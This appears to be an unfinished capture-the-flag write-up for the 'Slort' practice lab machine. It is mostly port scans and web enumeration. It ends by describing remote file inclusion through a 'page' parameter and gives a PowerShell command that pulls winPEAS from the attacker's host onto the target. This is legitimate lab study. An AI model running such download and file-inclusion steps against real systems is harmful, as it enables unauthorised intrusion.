




# Slort

Machine: [Slort](https://portal.offensive-security.com/labs/practice)\
Difficulty: Intermediate


## Enumeration
What ports are open? I used both namp and namp automator to enumerate the machine.


```
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, NULL, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|_    Host '192.168.49.99' is not allowed to connect to this MariaDB server
4443/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.99.53:4443/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.99.53:8080/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-open-proxy: Proxy might be redirecting requests
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 1s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-19T15:18:20
|_  start_date: N/A

```

### Ports Info
#### FTP 21

#### SMB 139/445
Based on the output below, I do not believe smb is an attack vector. 
```
└─$ enum4linux -U -o 192.168.99.53
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Mar 19 11:47:21 2023

 =========================================( Target Information )=========================================                                                 
                                                                             
Target ........... 192.168.99.53                                             
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ===========================( Enumerating Workgroup/Domain on 192.168.99.53 )===========================                                                  
                                                                             
                                                                             
[E] Can't find workgroup/domain                                              
                                                                             
                                                                             

 ===================================( Session Check on 192.168.99.53 )===================================                                                 
                                                                             
                                                                             
[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.                                                            

```

#### MySQL
This does not appear to be vulnerable and I can't connect.
```
$ mysql -h 192.168.99.53 3306
ERROR 1130 (HY000): Host '192.168.49.99' is not allowed to connect to this MariaDB server

```

#### Panda Pub
I am not familiar with this but it is a file transfer service of some kind.

#### HTTP 4443
I used dirbuster, but I did not find anything present on this webserver.

#### HTTP 8080
Below are the partial results of the dirbuster scan.  I found a webpage titled 'Slort', so this seems to be a good indicator that we are on the right path.


In the url, I noticed that it is using a parameter called 'page'. This parameter could be levereged for LFI, or LFI to RCE.

I also ran a nikto scan on the Slort webpage I found, and the output of that scan is below. I did not find much information that will help me.
```
+ Server: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
+ /site/: Retrieved x-powered-by header: PHP/7.4.6.
+ /site/: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /site/: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Root page /site redirects to: index.php?page=main.php
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /index: Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. The following alternatives for 'index' were found: HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var. See: http://www.wisec.it/sectou.php?id=4698ebdc59d15,https://exchange.xforce.ibmcloud.com/vulnerabilities/8275
+ OpenSSL/1.1.1g appears to be outdated (current is at least 3.0.7). OpenSSL 1.1.1s is current for the 1.x branch and will be supported until Nov 11 2023.
+ Apache/2.4.43 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ PHP/7.4.6 appears to be outdated (current is at least 8.1.5), PHP 7.4.28 for the 7.4 branch.
+ /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
+ /site/index.php: PHP include error may indicate local or remote file inclusion is possible.
+ /site/css/: Directory indexing found.
+ /site/css/: This might be interesting.                                                                                                                                                                
+ /site/README.TXT: This might be interesting.                                                                                                                                                          
+ /site/readme.txt: This might be interesting.                                                                                                                                                          
+ /site/images/: Directory indexing found.                                                                                                                                                              
+ /site/LICENSE.txt: License file found may identify site software.                                                                                                                                     


```

### Other Enumeration
There are a number of unknown open ports on the target, but I will ignore them since I don't know what service, if any, is running on a port.


## Exploit
After my intial enumeration, I still did not have a foothold on the target. I supected the vulnerability is due to the 'page' parameter, but I did not have success when I tested. With Windows, it appears to be different than how one would do in Linux. I saw an example online where someone connected back to their machine to retrieve a file, and then load the file in the browser by updating the parameter in the url. I can do the same thing, but upload a shell and setup a listener to wait for the incoming connection. 

```
powershell "Invoke-WebRequest -UseBasicParsing 192.168.49.99:8000/winPEASx64.exe -OutFile winpeas.exe"
```







### Local/User flag



### Root Flag
*** Insert screenshot of uploading winpeas ***


